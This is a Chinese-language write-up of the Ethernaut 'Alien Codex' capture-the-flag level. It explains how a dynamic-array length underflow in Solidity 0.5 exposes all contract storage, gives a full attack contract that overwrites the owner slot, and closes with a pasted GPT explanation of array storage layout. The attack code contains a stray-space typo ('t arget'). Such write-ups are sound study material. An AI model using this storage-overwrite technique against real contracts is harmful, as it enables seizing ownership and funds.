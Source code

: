 # 19-Alien Codex

日期: 22/08/2024
难易: 超纲
漏洞小结: 数组向下溢出
简单明了: 旧版本向下漏出以及利用

# 问题描述

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

# 攻击思路

- 看到0.5.0应该是这个版本的古早漏洞
- 查了一下是数组向下溢出，溢出的数组的长度和合约的存储长度一样
    - 因为是继承，所以ownable里面，owner在slot0，并且只有一个bit的contract也在slot0
    - 因为长度一样，所以这个数组的某个位置和slot0会重合
    - 通过revise合约去写前slot0重合的位置，修改owner的值就可以了
    - 如何计算的方式水平不够，看看大神的分析，在攻击代码里面

# 攻击方式

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IAlienCodex {
    function owner() external view returns (address);
    function codex(uint256) external view returns (bytes32);
    function retract() external;
    function makeContact() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract AttackAlienCode {
    /*
    storage
    slot 0 - owner (20 bytes), contact (1 byte)
    slot 1 - length of the array codex

    // slot where array element is stored = keccak256(slot)) + index
    // h = keccak256(1)
    slot h + 0 - codex[0] 
    slot h + 1 - codex[1] 
    slot h + 2 - codex[2] 
    slot h + 3 - codex[3] 

    Find i such that
    slot h + i = slot 0
    h + i = 0 so i = 0 - h
    */
    constructor(IAlienCodex target) {
        t arget.makeContact();
        target.retract();

        uint256 h = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i;
        unchecked {
            // h + i = 0 = 2**256
            i -= h;
        }

        target.revise(i, bytes32(uint256(uint160(msg.sender))));
        require(target.owner() == msg.sender, "hack failed");
    }
}
```

# Ethernuat总结

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)

# 小白的思考

- CTF向的题目，比较古早，现在应该已经没有这个问题了，但是能把这个东西研究明白真是个天才
- 了解一下slot数组是怎么存放值的
- 要知道如何计算，然后调用就可以了
- 向下溢出需要使用`unchecked`关键词
    
    ```solidity
            unchecked {
                // h + i = 0 = 2**256
                i -= h;
            }
    ```
    

还有一个很重要的点，之前做privacy合约的时候也是个数组，那时候是在别的变量之后连续的，但是这个却需要使用keccak256(slot)来计算，这个点需要搞清楚一下。Refer to GPT

## 固定大小数组 vs 动态数组

这是一个关键的 Solidity 存储机制差异点。`Privacy` 合约中的 `data` 数组和 `AlienCodex` 合约中的 `codex` 数组，虽然都是数组，但它们的存储方式在底层有所不同。我们来详细分析：

### 1. 固定大小数组 vs 动态数组：

- 在 `Privacy` 合约中，`data` 是一个 **固定大小** 的 `bytes32[3]` 数组。
    
    固定大小的数组直接将其元素紧挨着存储在连续的存储槽中。由于 `data` 有 3 个元素，它们会依次占据 `slot 3`, `slot 4`, 和 `slot 5`。这就是为什么在 `Privacy` 合约中，你可以简单地通过固定偏移量访问它们。
    
- 在 `AlienCodex` 合约中，`codex` 是一个 **动态大小** 的 `bytes32[]` 数组。
    
    动态数组的存储方式不同，数组的元素不会直接紧挨着存储，而是从一个计算出的槽位开始。这种计算需要用到 `keccak256` 哈希函数。
    

### 2. 为什么需要 `keccak256(slot)` 计算？

动态数组存储的数据是通过哈希计算来定位的。原因在于，动态数组的长度是可变的，无法直接用固定的槽位置表示。因此：

- 数组的长度本身存储在对应的槽中（在 `AlienCodex` 中，`codex` 的长度存储在 `slot 1`）。
- 实际数据的位置是从 `keccak256(slot)` 计算出来的存储槽开始，确保数组的数据和长度是分开的。`keccak256(1)` 的哈希结果表示数组数据的起始存储槽。

### 3. 为什么固定大小的数组不需要哈希计算？

固定大小的数组在编译时就已经确定了长度，因此 Solidity 编译器可以直接将它们的元素存储在连续的存储槽中，而无需额外计算起始槽位。这是它们和动态数组的最大区别。

---

综上，`Privacy` 中的 `data` 和 `AlienCodex` 中的 `codex` 是不同类型的数组，因此它们的存储方式不同。如果还有疑问，可以继续探讨！